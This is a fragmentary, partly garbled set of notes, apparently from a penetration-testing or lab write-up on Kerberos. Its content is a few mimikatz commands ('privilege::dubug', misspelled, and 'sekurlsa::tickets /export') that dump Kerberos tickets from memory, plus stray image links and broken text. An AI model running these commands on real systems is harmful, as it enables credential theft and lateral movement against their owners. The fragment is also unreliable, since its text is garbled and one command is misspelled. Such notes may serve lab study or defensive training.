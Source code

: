 downloads--kerberows

miki...
抓x64

mimikatz

privilege::dubug
sekurlsa::tickets /export
![image](images/r1swlYzDp.png)